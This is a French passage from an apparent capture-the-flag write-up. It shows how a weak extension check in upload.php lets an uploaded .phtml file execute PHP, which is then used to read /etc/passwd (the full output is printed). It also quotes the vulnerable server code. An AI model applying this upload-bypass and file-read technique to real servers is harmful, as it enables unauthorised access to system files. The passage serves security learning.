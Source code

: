 Quand on demande l'image uploadée avec l'extension *.phtml* le PHP est bien exécuté mais un content-type d'image est toujours spécifié par le serveur.  

Avec curl on obtient plus facilement l'output :  

```plain
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/false
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/false
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/false
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
bob:x:1000:1000:bob,,,:/home/bob:/bin/bash
mysql:x:104:107:MySQL Server,,,:/var/lib/mysql:/bin/false
```

On réitère l'opération d'upload mais cette fois notre script accepte comme argument le chemin du fichier à lire.  

Ainsi on retrouve dans *index.php* :  

```plain
          <p>Uploaded Images: <?php echo exec("find /var/www/images/ -type f | wc -l"); ?><br />
             Total Used Space: <?php echo exec("du -hs /var/www/images/ | cut -f1"); ?></p>
```

Et dans *upload.php* :  

```php
function getExtension($str) {
    $i = strrpos($str,".");
    if (!$i) { return ""; }
    $l = strlen($str) - $i;
    $ext = substr($str,$i+1,$l);
    return $ext;
 }

//--- snip ---
if ($image) {
    $filename = stripslashes($_FILES['image']['name']);
    $extension = getExtension($filename);
    $extension = strtolower($extension);
    if (preg_match("/^.*\.(bmp|jpeg|gif|png|jpg).*$/i", $filename)) {
	$size=filesize($_FILES['image']['tmp_name']);
	if ($size > MAX_SIZE*1024) {
	    echo '<h1>You have exceeded the size limit!</h1>';
	    $errors=1;
	}
	$raw_name=md5($image);
	$image_name=md5($image).'.'.$extension;
	$newname="images/".$image_name;
	$copied = copy($_FILES['image']['tmp_name'], $newname);
```